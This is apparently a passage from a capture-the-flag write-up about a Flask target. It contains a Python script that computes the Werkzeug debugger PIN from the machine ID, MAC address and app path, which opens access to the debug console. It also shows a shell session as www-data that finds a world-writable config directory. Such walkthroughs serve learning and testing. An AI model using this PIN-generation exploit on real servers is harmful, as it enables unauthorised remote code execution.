 ```py
#!/bin/python3
import hashlib
from itertools import chain

probably_public_bits = [
	'flaskdev',# username
	'flask.app',# modname
	'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
	'/usr/local/lib/python3.10/dist-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
	'2482665382914',# str(uuid.getnode()),  /sys/class/net/ens33/address 
	# Machine Id: /etc/machine-id + /proc/sys/kernel/random/boot_id + /proc/self/cgroup
	'68f432c96a6d45f585a019af1ad31fc2'
]

h = hashlib.sha1() # Newer versions of Werkzeug use SHA1 instead of MD5
for bit in chain(probably_public_bits, private_bits):
	if not bit:
		continue
	if isinstance(bit, str):
		bit = bit.encode('utf-8')
	h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
	h.update(b'pinsalt')
	num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
	for group_size in 5, 4, 3:
		if len(num) % group_size == 0:
			rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
						  for x in range(0, len(num), group_size))
			break
	else:
		rv = num

print("Pin: " + rv)
```

However, it still doesn't work...

**In `/var/www`, I noticed something weird:**
```shell
(remote) www-data@flask:/var/www$ ls -lah
total 20K
drwxr-xr-x 1 root root 4.0K May 13 03:17 .
drwxr-xr-x 1 root root 4.0K May 13 03:17 ..
drwxr-xr-x 1 root root 4.0K May 13 03:17 app
drwxrwxrwx 1 root root 4.0K May 13 03:17 config
drwxr-xr-x 1 root root 4.0K May 13 03:17 dev
```
